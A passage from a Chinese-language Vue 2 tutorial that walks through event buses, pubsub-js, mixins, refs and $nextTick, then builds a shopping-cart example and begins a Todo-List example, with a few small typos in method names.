<style lang="less" scoped>

</style>


~~~


### 4.3 销毁前解绑事件

当组件被销毁前，建议将事件清除，既然组件都被销毁了，那么数据传输也不需要了，可以使用声明周期函数 beforeDestory()

~~~js
beforeDestory(){
    this.$bus.off('sendName')
}
~~~


## 5. 消息订阅与发布

需要使用第三方库 pubsub.js ，可以在任意框架中使用消息的订阅与发布


安装

~~~js
npm i pubsub-js
~~~


需要引入库

~~~js
import pubsub from 'pubsub-js'
~~~


接受组件在挂载完毕后，开始订阅消息

~~~js
mounted() {
    // 回调函数中第一个参数是事件名，第二个参数是数据
    pubsub.subscribe('getName', function (e, data) {
        console.log(data)
    })
},
~~~


负责发送消息的组件

~~~json
methods: {
    send() {
        pubsub.publish('getName', '666')
    },
},
~~~

> 当按钮触发 click 事件执行 send() 方法，然后 send() 方法内部执行发布消息，触发事件，传值


组件被销毁时，我们还是需要清除订阅消息，清除订阅消息需要传入定义订阅消息时返回的 ID 值，所以我们在定义订阅消息时，还需要把返回值赋给组件实例，如：

~~~js
mounted() {    
    this.subId = pubsub.subscribe('getName', function (e, data) {
        console.log(data)
    })
},
~~~


清除订阅消息

~~~js
beforeDestory(){
    pubsub.unsubscribe(this.subId)
}
~~~


pubsub.js 中的 this

在订阅消息或发布消息时，其中回调函数中的 this 是 undefined，如果想要在回调函数中使用指向 vc 的 this，那么就需要把回调函数改成箭头函数的形式，如：

~~~js
mounted() {    
    this.subId = pubsub.subscribe('getName', (e, data)=> {
        this.name = data
    })
},
~~~


或者定义一个 methods，然后在回调函数中调用这个 methods

~~~json
methods:{
    setName(e, data){
        this.name = data
    }
},
mounted(){
    this.subId = pubsub.subscribe('getName', this.setName)
}

~~~


往往我们不需要订阅消息绑定事件的名称，不写又会出错，写了不用可能会被 ESLint 报错，所以我们一般可以用下划线来占位，如：

~~~js
methods:{
    setName(_, data){
        this.name = data
    }
},
~~~


# Mixin 混入

mixin 可以把多个组件公用的配置项提取成一个混入对象，使之应用于所有组件。


定义两个子组件，School、Student，功能为点击 name 标签时，弹出 name 值。

School.vue

~~~vue
<template>
  <div>
    <h3 @click="pop">学校：{{ name }}</h3>
    <h3>地址：{{ address }}</h3>
  </div>
</template>

<script>
export default {
  data() {
    return {
      name: '尚硅谷',
      address: '北京',
    }
  },
  methods: {
    pop() {
      alert(this.name)
    },
  },
}
</script>

<style></style>

~~~


Student.vue

~~~vue
<template>
  <div>
    <h3 @click="pop">姓名：{{ name }}</h3>
    <h3>年龄：{{ age }}</h3>
  </div>
</template>

<script>
export default {
  data() {
    return {
      name: '张三',
      age: '18',
    }
  },
  methods: {
    pop() {
      alert(this.name)
    },
  },
}
</script>

<style></style>

~~~


App.vue 父组件引入

~~~vue
<template>
  <div>
    <School></School>
    <hr />
    <Student></Student>
  </div>
</template>

<script>
import School from './components/School.vue'
import Student from './components/Student.vue'

export default {
  components: { School, Student },
}
</script>

~~~


## 1. 局部混入

可以发现，School 和 Student 组件中的 methods 完全一样，我们可以将之提取出来，单独放入一个 js 文件，我们将这个文件取名为 mixin.js

~~~js
export const hunhe = {
  methods: {
    pop() {
      alert(this.name)
    },
  },
}

~~~

> 使用 ES6 导出模块，变量名和文件名可以任意


然后在 Student、School 中分别引入，并且使用 mixins 配置项配置

~~~vue
<template>
  <div>
    <h3 @click="pop">学校：{{ name }}</h3>
    <h3>地址：{{ address }}</h3>
  </div>
</template>

<script>
import { hunhe } from '../mixin'

export default {
  data() {
    return {
      name: '尚硅谷',
      address: '北京',
    }
  },
  mixins: [hunhe],
}
</script>

<style></style>

~~~


## 2. 多项混入

除了可以混入方法外，还可以混入 data 数据、生命周期函数等，如：

~~~js
export const hunhe = {
  methods: {
    pop() {
      alert(this.name)
    },
  },
  mounted() {
    console.log('666')
  },
  data() {
    return {
      x: 111,
      y: 222,
    }
  },
}
~~~


也可以将混入对象拆分成多个对象

~~~js
export const hunhe = {
  methods: {
    pop() {
      alert(this.name)
    },
  },
  mounted() {
    console.log('666')
  },
}

export const hunhe2 = {
  data() {
    return {
      x: 111,
      y: 222,
    }
  },
}

~~~


导入的时候需要导入两个混合配置项

~~~vue
<template>
  <div>
    <h3 @click="pop">姓名：{{ name }}</h3>
    <h3>年龄：{{ age }}</h3>
  </div>
</template>

<script>
import { hunhe, hunhe2 } from '../mixin'
export default {
  data() {
    return {
      name: '张三',
      age: '18',
    }
  },
  mixins: [hunhe, hunhe2],
}
</script>

<style></style>

~~~


## 3. 优先级

当在混入对象中配置了与当前组件相冲突的 data 数据或methods方法时，当前组件的内部定义data, methods 优先级要高于混入对象，如：

~~~js
export const hunhe = {
  data() {
    return {
      x: 111,
      y: 222,
    }
  },
}

~~~


~~~vue
<template>
  <div>
    <h3 @click="pop">姓名：{{ name }}</h3>
    <h3>年龄：{{ age }}</h3>
  </div>
</template>

<script>
import { hunhe } from '../mixin'
export default {
  data() {
    return {
      name: '张三',
      age: '18',
      x:666,
    }
  },
  mixins: [hunhe],
}
</script>

<style></style>

~~~

> 此时 Student 组件中的 x 属性为 666，y 为 222


生命周期函数除外，生命周期函数会全部运行，并且混入对象中的生命周期函数先运行，组件中的生命周期函数后运行。如：

~~~js
export const hunhe = {
  mounted() {
    console.log('混入对象声明周期')
  },
}

~~~


~~~vue
<template>
  <div>
    <h3>姓名：{{ name }}</h3>
    <h3>年龄：{{ age }}</h3>
  </div>
</template>

<script>
import { hunhe } from '../mixin'
export default {
  data() {
    return {
      name: '张三',
      age: '18',
    }
  },
  mixins: [hunhe],
  mounted() {
    console.log('组件中的生命周期')
  },
}
</script>

<style></style>

~~~

> 运行结果
>
> 混入对象声明周期
> 组件中的生命周期


## 2. 全局混入

全局混入可以不必在各个组件内单独引入 mixin.js ，只需要在 main.js 中将混入对象加载到 Vue 中即可，如：

~~~js
import Vue from 'vue'
import App from './App.vue'
import { hunhe } from './mixin'

Vue.config.productionTip = false
Vue.mixin(hunhe)

new Vue({
  render: (h) => h(App),
}).$mount('#app')

~~~


此时 mixin 混入对象将在所有组件中加载：

- Root
- App
- School
- Student


# Ref 引用

## 1. 引用 DOM 元素

ref 用来辅助开发者在不依赖于 jQuery 的情况下，获取 DOM 元素或组件的引用。

在每个 vue 的组件实例上，都包含一个 $ref 对象，里边存储着对应的  DOM 元素或组件的引用，默认情况下，组件的 $ref 指向一个空对象。

ref 属性被用来给元素或子组件注册引用信息（id的替换者）

- 应用在 html 标签上获取的是真实 DOM 元素
- 应用在组件标签上是组件的实例对象（vc）


在 Vue 项目中，可以使用 console.log() 进行查看，在 Vue Dev Tools 中查看实例名称，然后输出

~~~js
console.log($vm0)
console.log($vm0.$refs)
~~~

> 目前 $vm0 这个实例中的 $ref 属性是一个空对象


当对组件中的 DOM 元素附加 ref 属性时，可以看到该组件中的 DOM 元素被加入到了 $ref 属性中，我们可以通过操作 $ref 来操作 DOM 元素

~~~html
 <h1 ref='myH1'>APP 根组件</h1>
~~~


此时再次查看 $ref 属性可以看到，该属性变成了

~~~
{myH1:h1}
~~~


改变 DOM 元素

~~~html
<template>
	<div class="app-container">
        <h1 ref='myH1'>APP 根组件</h1>
        <button @click="changeStyle">改变 DOM 样式</button>
    </div>
</template>

<script>
    export default {
        methods:{
            changeStyle(){
                // 利用 refs 属性操作 DOM 元素
                this.$refs.myH1.style.color = 'red'
            }
        },
    };
</script>

<style lang="less">
</style>

~~~


## 2. 引用组件

如果想要使用 ref 引用页面上的组件实例，可以给子组件添加 ref 属性：

~~~html
<Left ref="comLeft"></Left>
~~~


此时父组件中的 $refs 中就包含了子组件的实例，通过子组件的实例，我们可以对其的 data 值进行数据读写或调用子组件实例的方法。

~~~js
methods:{
    LeftReset(){
        // 利用 refs 属性操作实例
        this.$refs.comLeft.reset()
    }
},
~~~


例：子组件定义一个值，自增按钮和重置按钮

~~~html
<template>
  <div class="left">
    <h2>Left</h2>
    <hr />
    <p>count 值为：{{count}}</p>
    <button @click="add">自增</button>
    <button @click ="reset">重置</button>
  </div>
</template>

<script>
export default {
  data() {
    return {
      count: 0,
    };
  },
  methods: {
    add() {
      this.count +=1
    },
    reset(){
      this.count = 0
    }
  },
};
</script>

<style lang="less" scoped>

</style>


~~~


父组件中把 Left 子组件的实例赋值给 $refs，并通过 $refs 操作子组件

~~~html
<template>
<div class="app-container">
    <h1>APP 根组件</h1>
        <!-- 调用父组件内方法 -->
    <button @click="leftReset">重置Left组件中Count值</button>
    <hr />
    <div class="box">
        <!-- 将子组件实例添加到父组件实例的 $refs中 -->
        <Left ref="comLeft"></Left>
    </div>
    </div>
</template>

<script>

    import Left from "@/components/Left.vue";

    export default {
        methods:{
            leftReset(){
                // 执行子组件中的 reset 方法
                this.$refs.comLeft.reset()
            },
        },
        components: {
            Left,
        },
    };
</script>

<style lang="less">
.box {
    display:flex
}
</style>

~~~


## 3. $nextTick(cb)

组件的 $nextTick(cb) 方法，会把 cb 回调推迟到下一个 DOM 更新周期之后执行。通俗的理解是：等组件 DOM 更新完成之后，再执行 cb 回调函数。从而能保证 cb 回调函数可以操作到最新的 DOM 元素


定义一个输入框和一个按钮

- 当点击按钮时，显示输入框
- 当输入框失去焦点时，显示按钮

~~~html
<template>
  <div class="app-container">
    <h1>APP 根组件</h1>
    <hr />
    <input v-if="inputVisiable" @blur="showBtn" type="text" placeholder="失去焦点显示按钮" />
    <button v-else @click="showInput">显示输入框</button>
  </div>
</template>

<script>
export default {
  data() {
    return {
      inputVisiable: false,
    };
  },
  methods: {
    showInput() {
        this.inputVisiable = true
    },
    showBtn(){
        this.inputVisiable = false
    }
  },
};
</script>

<style lang="less">

</style>

~~~


页面有一个小 BUG，就是当点击按钮时， input 输入框没有自动获取焦点，为了给 input 加上交钱，我们需要使用 ref 来操作 DOM 元素

~~~html
<input v-if="inputVisiable" @blur="showBtn" type="text" placeholder="失去焦点显示按钮" ref="inputRef"/>
~~~


然后在显示输入框方法中，操作输入框 DOM 获取焦点

~~~js
showInput() {
    this.inputVisiable = true
    this.$refs.inputRef.focus()
},
~~~


我们发现，输入框没有自动获取焦点，并且 console 报错

~~~
Error in v-on handler: "TypeError: Cannot read properties of undefined (reading 'focus')"
~~~


这是因为页面中虽然数据改变了，但是结构还没有进行重新渲染，此时是无法找到 inputRef 的，我们需要让代码延迟到 DOM 加载完毕后再运行

~~~js
$this.$nextTick(()=>{
     this.$refs.inputRef.focus()
})
~~~


- nextTick() 解决方案

~~~HTML
<template>
  <div class="app-container">
    <h1>APP 根组件</h1>
    <hr />
    <input
      v-if="inputVisiable"
      @blur="showBtn"
      type="text"
      placeholder="失去焦点显示按钮"
      ref="inputRef"
    />
    <button v-else @click="showInput">显示输入框</button>
  </div>
</template>

<script>
export default {
  data() {
    return {
      inputVisiable: false,
    };
  },
  methods: {
    showInput() {
      this.inputVisiable = true;
      this.$nextTick(() => {
        this.$refs.inputRef.focus();
      });
    },
    showBtn() {
      this.inputVisiable = false;
    },
  },
};
</script>

<style lang="less">
.box {
  display: flex;
}
</style>

~~~


- updated 解决方案

因为同样是需要在数据改变后，DOM 元素加载完毕执行的代码，我们把代码放到声明周期函数中，

~~~js
updated() {
    this.$refs.inputRef.focus();
},
~~~

当第一次运行时，input 框获取了焦点，但是当 input 框失去焦点时，此时 inputVisibale 数据又发生了改变，此时代码会先根据 v-if, else 判断，把 input 框从页面结构中删除，然后重新渲染页面，之后才会执行 updated 中的代码，由于 input 框没有被渲染到页面上，也就无法找到 inputRef 了，所以 Console 会报错。当然如果用 v-show 来就没有这个问题，因为这个元素是一直在页面上的，只是用了 display:none 来隐藏而已。


# 购物车案例

## 1. 项目初始化

App.vue 根组件

~~~html
<template>
  <div class="app-container">
    <h1>APP 根组件</h1>
    <hr />
  </div>
</template>

<script>

}
</script>

<style lang="less">

</style>

~~~


## 2. 导入组件

创建 Header 组件

~~~html
<template>
  <div class="header-container">
      <h3>购物车案例</h3>
  </div>
</template>

<script>
export default {

}
</script>

<style>
.header-container{
    font-size:12px;
    height: 45px;
    width: 100%;
    background-color: rgb(28, 138, 241);
    text-align: center;
    line-height: 45px;
    color:white;
}
</style>
~~~


- 根组件导入 Header 组件
- 注册组件
- 使用标签渲染模板

~~~html
<template>
  <div class="app-container">
    <Header></Header>
    <h1>APP 根组件</h1>
    <hr />
  </div>
</template>

<script>
import Header from '@/components/Header/Header'

export default {
  components:{
    Header
  }
  
}
</script>

<style lang="less">

</style>

~~~


## 3. 父组件把 Title 值传给子组件

App.vue

~~~html
<template>
  <div class="app-container">
    <Header title="购物车标题"></Header>
    <h1>APP 根组件</h1>
    <hr />
  </div>
</template>
~~~


Header.vue

~~~html
<template>
  <div class="header-container">
      <h3>{{ title }}</h3>
  </div>
</template>

<script>
export default {
    props:['title']
}
</script>
~~~


## 4. 获取数据

在 App.vue 使用 axios 获取数据

- 导入 axios 包
- 在 methods 方法定义 initCartList 函数
- 在 created 声明周期函数调用 initCartList 函数


App.vue

~~~html
<template>
  <div class="app-container">
    <Header title="购物车标题"></Header>
    <h1>APP 根组件</h1>
    <hr />
  </div>
</template>

<script>
    // 导入 axios 包
import axios from "axios";
import Header from "@/components/Header/Header";

export default {
    // 声明周期函数中调用 initCartList() 方法
  created() {
    this.initCartList();
  },
  methods: {            
    async initCartList() {
        // 使用 axios 获取数据
      const { data: res } = await axios.get("https://www.escook.cn/api/cart");
      console.log(res);
    },
  },
  components: {
    Header,
  },
};
</script>

<style lang="less">
</style>

~~~


接口数据格式：

~~~js
list: (10) [
    {id: 1, goods_name: '班俏BANQIAO超火ins潮卫衣女士2020秋季新款韩版宽松慵懒风薄款外套带帽上衣', goods_img: 'https://www.escook.cn/vuebase/pics/1.png', goods_price: 108, goods_count: 1, …},
    {id: 2, goods_name: '嘉叶希连帽卫衣女春秋薄款2020新款宽松bf韩版字母印花中长款外套ins潮', goods_img: 'https://www.escook.cn/vuebase/pics/2.png', goods_price: 129, goods_count: 1, …},
    {id: 3, goods_name: '思蜜怡2020休闲运动套装女春秋季新款时尚大码宽松长袖卫衣两件套', goods_img: 'https://www.escook.cn/vuebase/pics/3.png', goods_price: 198, goods_count: 1, …},
    {…}, {…}, {…}, {…}, {…}, {…}, {…}]
message: "获取购物车列表数据成功！"
status: 200
~~~


将数据存放到 data 中

~~~html
<script>
    import axios from "axios";
    import Header from "@/components/Header/Header";

    export default {
        data(){
            return {
                list:[]
            }
        },
        created() {
            this.initCartList();
        },
        methods: {
            async initCartList() {
                const { data: res } = await axios.get("https://www.escook.cn/api/cart");
                if (res.status === 200){
                    this.list = res.list
                }
            },
        },
        components: {
            Header,
        },
    };
</script>
~~~


## 5. 遍历渲染商品列表

商品模块 Goods.vue

~~~html
<template>
  <div class="goods-container">
    <div class="thumb">
      <div class="custom-control custom-checkbox">
        <input
          type="checkbox"
          class="custom-control-input"
          id="cb1"
          :check="true"
        />
        <label class="custom-control-label" for="cb1">
          
        </label>
      </div>
    </div>
    <div class="goods-info">
      <h6>商品名称</h6>
      <div class="goods-info-bottom">
        <span class="goods-price">￥0</span>
      </div>
    </div>
  </div>
</template>

<script>
export default {};
</script>

<style lang="less" scoped>
.goods-container {
  + .goods-container {
    border-top: 1px solid #efefef;
  }
  padding: 10px;
  display: flex;
  .thumb {
    display: flex;
    align-items: center;
    img {
      width: 100px;
      height: 100px;
      margin: 0 10px;
    }
  }

  .goods-info {
    display: flex;
    flex-direction: column;
    justify-content: space-between;
    flex: 1;
    .goods-title {
      font-weight: bold;
      font-size: 12px;
    }
    .goods-info-bottom {
      display: flex;
      justify-content: space-between;
      .goods-price {
        font-weight: bold;
        color: red;
        font-size: 13px;
      }
    }
  }
}
</style>
~~~


App.vue 导入父组件，遍历

~~~html
<template>
  <div class="app-container">
    <Header title="购物车标题"></Header>
    <h1>APP 根组件</h1>
    <Goods
      v-for="item in list"
      :key="item.id"
      :title="item.goods_name"
      :pic="item.goods_img"
      :price="item.goods_price"
      :status="item.goods_state"
    ></Goods>
  </div>
</template>

<script>
import axios from "axios";
import Header from "@/components/Header/Header";
import Goods from "@/components/Goods/Goods";

export default {
  data() {
    return {
      list: [],
    };
  },
  created() {
    this.initCartList();
  },
  methods: {
    async initCartList() {
      const { data: res } = await axios.get("https://www.escook.cn/api/cart");
      if (res.status === 200) {
        this.list = res.list;
      }
    },
  },
  components: {
    Header,
    Goods,
  },
};
</script>

<style lang="less">
</style>

~~~


父组件接受数据

~~~html
<template>
  <div class="goods-container">
    <div class="thumb">
      <div class="custom-control custom-checkbox">
        <input
          type="checkbox"
          class="custom-control-input"
          id="cb1"
          :checked="status"
        />
        <label class="custom-control-label" for="cb1">
          
        </label>
      </div>
    </div>
    <div class="goods-info">
      <h6>{{ title }}</h6>
      <div class="goods-info-bottom">
        <span class="goods-price">￥{{ price }}</span>
      </div>
    </div>
  </div>
</template>

<script>
export default {
  props: {
    title: {
      default: "",
      type: String,
    },
    pic: {
      default: "",
      type: String,
    },
    price: {
      default: 0,
      type: Number,
    },
    status:{
        default:true,
        type: Boolean,
    },
  },
};
</script>
~~~


## 6. Object 传值

这样一个个将数据拆分，然后独立传值，为什么不用 Object 传值一次性把所有值都传到子组件，如：


App.vue

~~~html
<template>
  <div class="app-container">
    <Header title="购物车标题"></Header>
    <h1>APP 根组件</h1>
    <Goods v-for="item in list" :key="item.id" :obj="item"></Goods>
  </div>
</template>
~~~


Goods.vue

~~~html
<script>
    export default {
        props: {
            obj:{
                default:{},
                type:Object
            }
        },
    };
</script>
~~~


这样渲染模板的时候，不就可以直接使用 item 对象来进行传值了吗？

~~~html

<h6>{{ obj.goods_name }}</h6>
<span class="goods-price">￥{{ obj.goods_price }}</span>
~~~


那么思考一下，现在如果是另外一个模块如 Promotion.vue 调用 Goods.vue 子组件，其中数据格式变成了

~~~json
{"promotion_count":1,
"promotion_img":"https://www.escook.cn/vuebase/pics/1.png",
"promotion_name":"班俏BANQIAO超",
"promotion_price":108,
"promotion_state":true,
"id":1}
~~~

> 那么 Goods.vue 这个组件还能复用吗？


## 7. 复选框状态

目前复选框状态是用的 v-bind 绑定，当页面复选框状态值发生改变，并不会同步到 vue 的数据源中。并且我们不能使用 v-model 来绑定 props 的数据。那么解决方案是子组件向父组件传值。


当子组件页面复选框状态发生改变时，改变父组件中获取的 data 数据

- 子组件中，监听复选框状态变化事件，拿到最新的勾选状态
  - `<input type="checkbox" @change="stateChange" />`
- 当监听到复选框状态改变时，把改变的状态通过自定义事件形式，发送给父组件
- 父组件传递 id 属性值（为了定位是哪个商品复选框）
- 子组件使用 `$emit('state-chagne',{id, value})` 事件将值传递给父组件
  - id 为当前商品的 id，vlaue 为改变后的复选框的状态


子组件绑定 @change 事件

~~~html
<input
       type="checkbox"
       class="custom-control-input"
       id="cb1"
       :checked="status"
       @change="stateChange"
       />
~~~


子组件 @change 绑定方法中，传值

~~~js
  methods:{
    stateChange(e){
        // 获取当前复选框状态
      const newState = e.target.checked
      // 定义自定义方法
      this.$emit('state-change',{id:this.id, value:newState})
    }
  }
~~~


父组件绑定自定义方法

~~~html
<Goods
       v-for="item in list"
       :key="item.id"
       :id="item.id"
       :title="item.goods_name"
       :pic="item.goods_img"
       :price="item.goods_price"
       :status="item.goods_state"
       @state-change="getNewState"
       ></Goods>
~~~


当 stateChange 自定义方法被触发时，触发父组件中的 getNewState 方法

~~~js
    getNewState(e) {
        // 遍历列表，找到 id 与 触发项相同的对象
      this.list.some((item)=>{
        if(item.id === e.id){
            // 改变 state 值
          item.goods_state = e.value
          return true
        }
      })
    },
~~~


## 8. Label 标签绑定

最后还有一个小问题要修复，就是 Label 标签的绑定目前是写死的，我们需要给每个遍历项不同的 label

~~~html
<input
       type="checkbox"
       class="custom-control-input"
       :id="'cb'+id"
       :checked="status"
       @change="stateChange"
       />
<label class="custom-control-label" :for="'cb' + id">
    
</label>
~~~


## 8. Footer 区域

Footer.vue

~~~html
<template>
  <div class="footer-container">
    <!-- 左侧的全选 -->
    <div class="custom-control custom-checkbox">
      <input
        type="checkbox"
        class="custom-control-input"
        id="cbFull"
        :checked="true"
      />
      <label class="custom-control-label" for="cbFull">全选</label>
    </div>

    <!-- 中间的合计 -->
    <div>
      <span>合计：</span>
      <span class="total-price">￥{{ 0 }}</span>
    </div>

    <!-- 结算按钮 -->
    <button type="button" class="btn btn-primary btn-settle">
      结算（{{ 0 }}）
    </button>
  </div>
</template>

<script>
export default {};
</script>

<style lang="less" scoped>
.footer-container {
  font-size: 12px;
  height: 50px;
  width: 100%;
  border-top: 1px solid #efefef;
  position: fixed;
  bottom: 0;
  background-color: #fff;
  display: flex;
  justify-content: space-around;
  align-items: center;
  padding: 0 10px;
}

.custom-checkbox {
  display: flex;
  align-items: center;
}

#cbFull {
  margin-right: 5px;
}

.btn-settle {
  height: 80%;
  min-width: 110px;
  border: 0;
  border-radius: 25px;
  font-size: 12px;
  background-color: rgb(38, 156, 235);
  color: white;
}

.total-price {
  font-weight: bold;
  font-size: 14px;
  color: red;
}
</style>

~~~


父组件引入

~~~html
// 引入组件
import Footer from "@/components//Footer/Footer"
~~~


~~~
// 注册组件
  components: {
    Header,
    Goods,
    Footer
  },
~~~


~~~
// 使用标签
<Footer></Footer>
~~~


~~~html
<template>
  <div class="app-container">
    <Header title="购物车标题"></Header>
    <h1>APP 根组件</h1>
    <Goods
      v-for="item in list"
      :key="item.id"
      :id="item.id"
      :title="item.goods_name"
      :pic="item.goods_img"
      :price="item.goods_price"
      :status="item.goods_state"
      @stateChange="getNewState"
    ></Goods>
    <Footer></Footer>
  </div>
</template>

<script>
import axios from "axios";
import Header from "@/components/Header/Header";
import Goods from "@/components/Goods/Goods";
import Footer from "@/components//Footer/Footer"

export default {
  data() {
    return {
      list: [],
    };
  },
  created() {
    this.initCartList();
  },
  methods: {
    async initCartList() {
      const { data: res } = await axios.get("https://www.escook.cn/api/cart");
      if (res.status === 200) {
        this.list = res.list;
      }
    },
    getNewState(e) {
      this.list.some((item)=>{
        if(item.id === e.id){
          item.goods_state = e.value
          return true
        }
      })
    },
  },
  components: {
    Header,
    Goods,
    Footer
  },
};
</script>

<style lang="less">
</style>

~~~


## 9. 计算属性显示全选框

当所有 checkbox 选框被选中时，全选框才会被选中，可以在 App.vue 中使用计算属性来监听所有的复选框

~~~html
  computed:{
    fullState(){
      return this.list.every((item=>item.goods_state))
    }
  },
~~~

> 返回i个布尔值


将计算属性传递给子组件，让子组件的状态框发生改变，子组件使用 props 属性接受计算属性

~~~html
<script>
export default {
    props:{
        isfull:{
            default:false,
            type:Boolean
        }
    }
};
</script>
~~~


父组件传值

~~~html
<Footer :isfull="fullState"></Footer>
~~~


## 10. 点击复选框实现全选或全消

子组件将值传递给父组件，一样在子组件中定义自定义方法

~~~js
    methods:{
        fullChange(e){
            const state = e.target.checked
            this.$emit('full-change',state)
        }
    }
~~~


将该方法绑定在全选框上

~~~html
<input
       type="checkbox"
       class="custom-control-input"
       id="cbFull"
       :checked="isfull"
       @change="fullChange"
       />
~~~


当全选框状态发生改变时，$emit 触发父组件中的 full-change 事件，父组件通过该事件触发绑定在父组件上的方法

~~~html
<Footer :isfull="fullState" @full-change="fullSelect"></Footer>
~~~


父组件通过该方法改变 list 中的值

~~~js
    fullSelect(e){
      this.list.forEach(item => {
        item.goods_state = e
      });
    }
~~~


## 11. 计算商品总价

- 通过计算属性动态获取数据
- filter 过滤勾选商品拿到新数组 
- reduce 计算新数组中的总价格 
- props 传值到子组件中
- toFixed(2) 保留两位小数


~~~js
// 计算属性获取所有勾选商品的总价格
    totalPrice(){
      return this.list.filter((item=>item.goods_state)).reduce((amt,item)=>{
        return amt += item.goods_price * item.goods_count
      },0)
    }
~~~


~~~html
<!-- 父组件通过自定义属性传值给子组件 -->
    <Footer :isfull="fullState" :total="totalPrice" @full-change="fullSelect"></Footer>
~~~


~~~js
// 子组件定义 props 接受父组件传值
    props:{
        isfull:{
            default:false,
            type:Boolean
        },
        total:{
          default:0,
          type:Number
        },
    },
~~~


~~~html
<!-- 子组件将 props 属性值渲染在页面 -->
      <span class="total-price">￥{{ total.toFixed(2) }}</span>
~~~


## 12. Counter 组件

Count 是控制商品数量的组件，所以应该是 Goods 的子组件，而不是 App 的子组件


Counter.vue

~~~html
<template>
  <div class="number-container d-flex justify-content-center align-items-center">
    <!-- 减 1 的按钮 -->
    <button type="button" class="btn btn-light btn-sm">-</button>
    <!-- 购买的数量 -->
    <span class="number-box">1</span>
    <!-- 加 1 的按钮 -->
    <button type="button" class="btn btn-light btn-sm">+</button>
  </div>
</template>

<script>
export default {}
</script>

<style lang="less" scoped>
.number-box {
  min-width: 30px;
  text-align: center;
  margin: 0 5px;
  font-size: 12px;
}

.btn-sm {
  width: 30px;
}
</style>

~~~


- 导入子组件
- 注册组件
- 标签显示


~~~js
// 在 Goods 组件中导入 Counter 组件
import Counter from "@/components/Counter/Counter"
~~~


~~~js
// 使用 Components 注册 Counter 组件
  components:{
    Counter
  }
~~~


~~~html
<!-- 使用标签将 Counter 组件渲染到页面 -->
      <div class="goods-info-bottom">
        <span class="goods-price">￥{{ price }}</span>
        <Counter></Counter>
      </div>
~~~


## 13. App 组件传值给 Counter

- App 组件把 goods_count 值传给 Goods，然后 Goods 再把值传递给 Count 组件


App.vue 在 Goods 标签中传值给 Goods.vue

~~~html
:count="item.goods_count"
~~~


设定 Goods 组件接受数据的 props 属性 count

~~~json
count:{
    default:1,
    type:Number,      
}
~~~


再将 Goods.vue 中的 props 属性 count 传值给 Counter

~~~html
<Counter :num="count"></Counter>
~~~


Counter 中定义 props 属性 num （不建议重复使用同一变量名）

~~~js
export default {
  props:{
    num:{
      default:1,
      type:Number,
    }
  }
}
~~~


Counter 模板渲染 num

~~~html
<span class="number-box">{{num}}</span>
~~~


## 14. Counter 数据同步给 App

- 修改 Counter 组件中的值，需要同步该数据到 App 中的 data 数据，传值关系是 孙 -> 爷 传值。在 Vue 中可以看做是兄弟组件传值，需要利用到中间件 eventBus.js


在 Counter 中定义 props 属性 id，以便用来定位 list 中的第几条数据

~~~json
id:{
    require:true,
    type:Number,
},
~~~


从 Goods.vue 传入 id 值

~~~html
<Counter :num="count" :id="id"></Counter>
~~~


创建 eventBus.js

~~~html
import Vue from 'vue'

export default new Vue()
~~~


在 Counter.vue 中导入 eventBus.js

~~~HTML
import bus from "@/components/eventBus"
~~~


在 Counter 中定义点击 “+”  增加数量的方法，click 事件绑定 + 按钮

~~~js
<button type="button" class="btn btn-light btn-sm" @click="add">+</button>
~~~


在 methods 中添加 add 方法

~~~js

methods:{
    add(){
        // 发送给 App 的格式为 {id, value}
        // 创建 obj 对象
        const obj = {
            id:this.id,
            value: this.num + 1
        }
        // 通过 eventBus 组件发送对象给 App.vue
        bus.$emit('share',obj);  
    }
}
~~~


在 App.vue 中导入 bus

~~~js
import bus from "@/components/eventBus";
~~~


在组件创建生命周期函数中接受数据

~~~js
created() {
    this.initCartList();
    bus.$on('share',val=>{
        this.list.some(item=>{
            if(item.id === val.id){
                item.goods_count = val.value
                return true
            }
        })
    });
},
~~~


sub 方法同理，Counter.vue 绑定点击事件

~~~html
<!-- 减 1 的按钮 -->
<button type="button" class="btn btn-light btn-sm" @click="sub">-</button>
~~~


methods 中的 sub 方法

~~~js
sub() {
    // 判断商品数量不能为负数
    if(this.num -1 == 0){
        return
    }
    const obj = {
        id: this.id,
        value: this.num - 1,
    };
    bus.$emit("share", obj);
},
~~~


## 15. 商品总数

结算时，需要统计商品总数量。使用 computed 计算属性在 App.vue 中统计 data 中的商品总件数，

~~~js
totalItems(){
    return this.list.filter((item)=>item.goods_state).reduce((t, item)=>t+= item.goods_count,0)      
}
~~~


将值传递给 Footer.vue

~~~html
<Footer
:isfull="fullState"
:total="totalPrice"
:allCount="totalItems"
@full-change="fullSelect"
></Footer>
~~~


Footer 使用 props 接受

~~~json
allCount:{
    type:Number,
    default:0
}
~~~


渲染到页面

~~~html
<!-- 结算按钮 -->
<button type="button" class="btn btn-primary btn-settle">
    结算（{{ allCount }}）
</button>
~~~


# Todo-List 案例

 组件化编码流程

1. 实现静态组件：抽取组件实现静态页面效果，组件需要按功能拆分，命名不要与 html 元素冲突
2. 实现动态组件：
   1. 数据的类型，名称是什么？
   2. 数据保存在哪个组件
      1. 一个组件在用：放在组件自身
      2. 多个组件公用：放在他们的共同的父组件上（状态提升）
3. 交互：绑定事件


## 1. 拆分组件


由于 HTML 中有语义化标签 header 和 footer，所以这里不能再起 Header 和 Footer 的组件了。可以改名为 myHeader, myFooter


创建所有组件：

- myHeader.vue
- myFooter.vue
- Item.vue
- List.vue


创建 App.vue 并引入所有标签

~~~html
<template>
  <div>
    <myHeader></myHeader>
    <myList></myList>
    <myFooter></myFooter>
  </div>
</template>

<script>
import myHeader from './components/myHeader.vue'
import myFooter from './components/myFooter.vue'
import myList from './components/myList.vue'

export default {
  components: {
    myHeader,
    myFooter,
    myList,
    myItem,
  },
}
</script>

<style></style>

~~~

> 注意，这里 myItem 算是 myList 的子组件，所以不需要再 App.vue 中引入，应该在 myList 中注册 myItem 组件


完整组件代码：

App.vue

~~~vue
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
        <myHeader></myHeader>
        <myList></myList>
        <myFooter></myFooter>
      </div>
    </div>
  </div>
</template>

<script>
import myHeader from './components/myHeader.vue'
import myFooter from './components/myFooter.vue'
import myList from './components/myList.vue'

export default {
  components: {
    myHeader,
    myFooter,
    myList,
  },
}
</script>

<style>
/*base*/
body {
  background: #fff;
}

.btn {
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255, 255, 255, 0.2), 0 1px 2px rgba(0, 0, 0, 0.05);
  border-radius: 4px;
}

.btn-danger {
  color: #fff;
  background-color: #da4f49;
